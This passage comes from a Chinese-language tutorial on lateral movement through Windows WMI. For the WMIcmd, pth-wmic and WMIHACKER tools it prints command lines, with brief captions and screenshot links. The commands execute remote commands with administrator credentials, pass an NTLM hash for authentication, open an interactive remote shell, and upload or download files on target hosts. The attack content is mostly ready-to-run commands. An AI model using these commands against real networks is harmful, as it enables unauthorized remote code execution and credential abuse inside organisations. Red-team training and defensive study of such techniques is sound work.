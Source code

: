 Ladon wmiexec2成功在域内执行命令

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0194b42319ffd56cfc.png)

**<a class="reference-link" name="WMIcmd"></a>WMIcmd**

> ***注意**：WMIcmd需要.NET4.5.2的支持。*

```
WMIcmd.exe -h IP -d hostname -u localadmin -p theirpassword -c "command"
```

WMIcmd.exe在工作组上使用

[![](https://p0.ssl.qhimg.com/t01b6b4e410771223dc.png)](https://p0.ssl.qhimg.com/t01b6b4e410771223dc.png)

```
WMIcmd.exe -h IP -d domain -u domainadmin -p theirpassword -c "command"
```

WMIcmd.exe在域内使用

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01aeb90e6e424e125f.png)

**<a class="reference-link" name="pth-wmic"></a>pth-wmic**

> ***注意**：此为kali内置工具，只能执行一些WMI命令，无法执行其他命令*

```
###查询指定主机的用户列表select Name from Win32_UserAccount###
pth-wmic -U pig/Administrator%00000000000000000000000000000000:c56ade0c054ba703d9f56e302224bbb3 //192.168.8.181 "select Name from Win32_UserAccount"
```

使用pth-wmic来远程管理指定主机的WMI

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0154d5346219df4723.png)

**<a class="reference-link" name="WMIHACKER"></a>WMIHACKER**

> ***注意**：wmihacker.vbs是在wmiexec.vbs基础上进行改进并优化的,新增了上传下载功能，其所需管理员权限。*

```
###命令执行后显示结果
cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1
###命令执行后不显示任何结果
cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo &gt; c:\1.txt" 0
###获取交互式shell
cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!"
###文件上传：将本地calc.exe复制到远程主机c:\calc.exe
cscript wmihacker_0.6.vbs /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"
###文件下载：将远程主机calc.exe下载到本地c:\calc.exe
cscript wmihacker_0.6.vbs /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe"
```
